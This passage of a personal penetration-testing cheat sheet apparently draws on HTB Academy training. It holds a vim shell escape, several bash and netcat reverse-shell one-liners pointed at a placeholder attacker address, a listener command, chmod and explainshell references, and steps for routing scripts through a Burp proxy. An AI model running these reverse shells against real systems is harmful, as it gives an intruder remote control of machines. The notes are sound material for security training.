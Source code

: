 ```bash
vim
:set shell=/bin/sh
:shell
```

> Source HTB Academy

### Bash Reverse shell

- Say we have a way through root and we need to get a reverse shell here are helpfuls command
  - `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc IP-OF-YOUR-KALI 7777 > /tmp/f` serve a Bash shell on a network socket utilizing a Netcat listener.
  - `/bin/bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/bash`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/sh`
  - `bash -c 'bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1'` this one is symbol safe it is useful when doing it in an url or something like this.

> *Note: We have to set a listener prior to this with `rlwrap nc -lvp 4444`*

- [Here is an amazing website to generate reverse shell](https://www.revshells.com/) there are plenty of options for bash and you can even encode it if you needé

## Permissions cheat sheet

![image](https://user-images.githubusercontent.com/96747355/175057144-3baa417c-db0b-4709-af0d-eb370d222c39.png)  

> *Source: [Chmod tutorial by Ryan Morrison](https://medium.com/@razl/chmod-tutorial-ce4386a3ce0c)*

## Explainshell.com

- [This website](https://explainshell.com/) is relly helpful to understand what a specific linux command does. Here is an example with `rm -rf file`  
![image](https://user-images.githubusercontent.com/96747355/175054655-9a49193f-38a3-4cc7-92dc-e1d6f716aaab.png)

## Route your scripts through burp

- `export https_proxy=http://server-ip:port/` for example `export https_proxy=http://127.0.0.1:8080/`
- You will need to add a cert
  - Generate a burp.der cert
  - Convert it to pem `openssl x509 -inform der -in burp.der -out burp.pem`
  - Install Burp certificate:  
    - `cp burp.pem /etc/ssl/certs/` (will need sudo if not root)
    - `update-ca-certificates` (will need sudo if not root)
    - `cp burp.pem burp.crt`
    - `sudo cp burp.crt /usr/local/share/ca-certificates/`
    - `sudo cp burp.crt /usr/share/ca-certificates/`
- Everytime you launch a script you should see the traffic in burp

## Resources
